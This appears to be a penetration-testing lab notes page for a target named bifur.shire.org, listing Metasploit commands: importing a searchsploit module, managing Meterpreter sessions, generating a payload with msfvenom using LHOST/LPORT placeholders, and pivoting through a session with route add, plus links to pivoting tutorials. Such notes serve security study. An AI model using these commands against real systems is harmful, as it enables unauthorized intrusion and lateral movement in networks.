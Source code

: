 # Target 3: bifur.shire.org

## Adding New Modules to Metasploit

```
searchsploit -m file.rb
sudo -i
cp file.rb /root/.msf4/modules/.exploits
msfconsole
search file.rb
```

## Metasploit/Meterpreter Notes

* sessions -u \[session #] to elevate to Meterpreter
* CTRL + z to background a Metasploit session
* sessions -i \[session #] to return to a backgrounded Metasploit session
* msfvenom -p \[payload] LHOST=\[IP] LPORT=\[port] -f \[format] > \[file name]
* route add \[subnet] \[netmask] \[session ID] to route Metasploit activity through an active Meterpreter session

## Resources

{% embed url="https://f5-agility-labs-waf.readthedocs.io/en/latest/class2/module1/lab2.html" %}

{% embed url="https://infinitelogins.com/2021/02/20/using-metasploit-routing-and-proxychains-for-pivoting/" %}

{% embed url="https://null-byte.wonderhowto.com/how-to/get-root-with-metasploits-local-exploit-suggester-0199463/" %}

{% embed url="https://medium.com/@nikosch86/how-to-metasploit-behind-a-nat-or-pivoting-and-reverse-tunneling-with-meterpreter-1e747e7fa901" %}
